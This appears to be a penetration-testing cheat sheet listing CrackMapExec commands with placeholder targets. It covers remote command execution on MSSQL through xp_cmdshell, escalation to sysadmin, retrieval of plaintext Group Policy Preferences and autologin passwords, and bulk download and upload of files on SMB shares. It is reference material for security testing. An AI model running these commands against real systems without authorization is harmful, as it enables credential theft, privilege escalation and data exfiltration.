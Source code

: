 
## MSSQL Enumeration and Attacks

| **Command**| **Description**|
|-|-|
| `cme mssql <target> -u <u> -p <p> -q <SQL_QUERY>` | Perform an SQL Query againts the target machine. |
| `cme mssql <target> -u <u> -p <p> -x <command>` | Executing Windows command on the target if the option `xp_cmdshell` is available to the user. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv` | Enumerates MSSQL privileges to scale from a standard user into a sysadmin.  |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=privesc` | Exploit MSSQL privileges to scale from a standard user into a sysadmin. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=rollback` | Rollback user's privileges to standard user. |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder. |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>` | Put a local file into a remote location. |

---
## Domain Enumeration

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> -M gpp_password` | Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences (GPP). |
| `cme smb <target> -u <u> -p <p> -M gpp_autologin` | Searches the domain controller for registry.xml to find autologin information and returns the username and password. |

---
## File Operations

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> --spider <share_name> --pattern <pattern> ` | Search in a remote share for a pattern. | 
| `cme smb <target> -u <u> -p <p> --spider <share_name> --regex <regex> ` | Search in a remote share using regular expression. "." list all files and directories | 
| `cme smb <target> -u <u> -p <p> --spider <share_name> --content` | Enable content search. Can be combined with --pattern or --regex. | 
| `cme smb <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder. |
| `cme smb <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>` | Put a local file into a remote location. |
| `cme smb <target> -u <u> -p <p> -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL` | Creates a file containing the shares and files information. We can add the option EXCLUDE_DIR to prevent it from looking into specific shared folders. | 
| `cme smb <target> -u <u> -p <p> -M spider_plus -o READ_ONLY=false` | Download all files from all shared folder. | 

---
